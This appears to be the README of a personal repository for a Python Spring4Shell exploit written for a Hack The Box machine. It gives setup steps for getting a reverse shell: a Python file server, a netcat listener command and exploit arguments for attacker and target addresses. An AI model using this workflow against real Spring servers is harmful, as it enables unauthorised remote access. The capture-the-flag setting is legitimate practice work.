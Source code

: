 # Spring4Shell
A Spring Framework exploit I wrote in python for a box I was doing on Hack the box.

# Requirements
You must have the following python library:
> Request
> time
> arg.parse

# Setup:
In order to gain shell, 
1. You must first start a file server (python3 -m http.server.
2. Then you use netcat to listen by typing nc -lvp 9000
3. then run the exploit.py with the hostname, your ip, server port, and the port you are listening on with netcat. Example: ./exploit.py -li <your ip> -lp 8000 -ri <server ip> -rp <server port> --listening-port <nc listening port>
